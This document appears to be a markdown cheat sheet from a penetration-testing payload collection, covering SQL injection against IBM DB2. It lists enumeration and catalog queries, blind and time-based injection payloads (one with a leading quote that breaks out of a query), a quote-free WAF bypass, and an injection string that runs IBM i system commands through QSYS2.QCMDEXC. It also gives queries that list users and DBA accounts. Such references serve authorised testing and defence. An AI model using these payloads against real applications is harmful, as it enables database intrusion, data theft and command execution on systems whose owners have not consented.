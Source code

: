 # DB2 Injection

> IBM DB2 is a family of relational database management systems (RDBMS) developed by IBM. Originally created in the 1980s for mainframes, DB2 has evolved to support various platforms and workloads, including distributed systems, cloud environments, and hybrid deployments. 


## Summary

* [DB2 Comments](#db2-comments)
* [DB2 Default Databases](#db2-default-databases)
* [DB2 Enumeration](#db2-enumeration)
* [DB2 Methodology](#db2-methodology)
* [DB2 Error Based](#db2-error-based)
* [DB2 Blind Based](#db2-blind-based)
* [DB2 Time Based](#db2-time-based)
* [DB2 Command Execution](#db2-command-execution)
* [DB2 WAF Bypass](#db2-waf-bypass)
* [DB2 Accounts and Privileges](#db2-accounts-and-privileges)
* [References](#references) 


## DB2 Comments	

| Type                       | Description                       |
| -------------------------- | --------------------------------- |
| `--`                       | SQL comment                       |


## DB2 Default Databases

| Name        | Description                                                           |
| ----------- | --------------------------------------------------------------------- |
| SYSIBM      | Core system catalog tables storing metadata for database objects.     |
| SYSCAT      | User-friendly views for accessing metadata in the SYSIBM tables.      |
| SYSSTAT     | Statistics tables used by the DB2 optimizer for query optimization.   |
| SYSPUBLIC   | Metadata about objects available to all users (granted to PUBLIC).    |
| SYSIBMADM   | Administrative views for monitoring and managing the database system. |
| SYSTOOLs    | Tools, utilities, and auxiliary objects provided for database administration and troubleshooting. |


## DB2 Enumeration

| Description      | SQL Query |
| ---------------- | ----------------------------------------- |
| DBMS version     | `select versionnumber, version_timestamp from sysibm.sysversions;` |
| DBMS version     | `select service_level from table(sysproc.env_get_inst_info()) as instanceinfo` |
| DBMS version     | `select getvariable('sysibm.version') from sysibm.sysdummy1` |
| DBMS version     | `select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo` |
| DBMS version     | `select service_level,bld_level from sysibmadm.env_inst_info` |
| Current user     | `select user from sysibm.sysdummy1` |
| Current user     | `select session_user from sysibm.sysdummy1` |
| Current user     | `select system_user from sysibm.sysdummy1` |
| Current database | `select current server from sysibm.sysdummy1` |
| OS info          | `select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info` |


## DB2 Methodology

| Description      | SQL Query |
| ---------------- | ------------------------------------ |
| List databases   | `SELECT distinct(table_catalog) FROM sysibm.tables` |
| List databases   | `SELECT schemaname FROM syscat.schemata;` |
| List columns     | `SELECT name, tbname, coltype FROM sysibm.syscolumns` |
| List tables      | `SELECT table_name FROM sysibm.tables` |
| List tables      | `SELECT name FROM sysibm.systables` |
| List tables      | `SELECT tbname FROM sysibm.syscolumns WHERE name='username'` |


## DB2 Error Based

```sql
-- Returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from sysibm.tables

-- Same but without repeated elements
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)

-- Returns all in one xml-formatted string.
-- May need CAST(xml2clob(… AS varchar(500)) to display the result.
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables 
```


## DB2 Blind Based

| Description      | SQL Query |
| ---------------- | ------------------------------------------ |
| Substring        | `select substr('abc',2,1) FROM sysibm.sysdummy1` |
| ASCII value      | `select chr(65) from sysibm.sysdummy1`     |
| CHAR to ASCII    | `select ascii('A') from sysibm.sysdummy1`  |
| Select Nth Row   | `select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only` |
| Bitwise AND      | `select bitand(1,0) from sysibm.sysdummy1` |
| Bitwise AND NOT  | `select bitandnot(1,0) from sysibm.sysdummy1` |
| Bitwise OR       | `select bitor(1,0) from sysibm.sysdummy1`  |
| Bitwise XOR      | `select bitxor(1,0) from sysibm.sysdummy1` |
| Bitwise NOT      | `select bitnot(1,0) from sysibm.sysdummy1` |


## DB2 Time Based

Heavy queries, if user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. 

```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```

## DB2 Command Execution

> The QSYS2.QCMDEXC() procedure and scalar function can be used to execute IBM i CL commands.

Using the `QSYS2.QCMDEXC()` on IBM i (previously named AS-400), it is possibile to achieve command execution.

```sql
'||QCMDEXC('QSH CMD(''system dspusrprf PROFILE'')')
```


## DB2 WAF Bypass

### Avoiding Quotes

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1
```


## DB2 Accounts and Privileges

| Description      | SQL Query |
| ---------------- | ------------------------------------ |
| List users | `select distinct(grantee) from sysibm.systabauth` |
| List users | `select distinct(definer) from syscat.schemata` |
| List users | `select distinct(authid) from sysibmadm.privileges` |
| List users | `select grantee from syscat.dbauth` |
| List privileges | `select * from syscat.tabauth` |
| List privileges | `select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies` |
| List DBA accounts | `select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'` |
| List DBA accounts | `select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = 'Y' or SYSADMAUTH = 'G'` |
| Location of DB files | `select * from sysibmadm.reg_variables where reg_var_name='DB2PATH'` |


## References

- [DB2 SQL injection cheat sheet - Adrián - May 20, 2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
- [Pentestmonkey's DB2 SQL Injection Cheat Sheet - @pentestmonkey - September 17, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)
- [QSYS2.QCMDEXC() - IBM Support - April 22, 2023](https://www.ibm.com/support/pages/qsys2qcmdexc)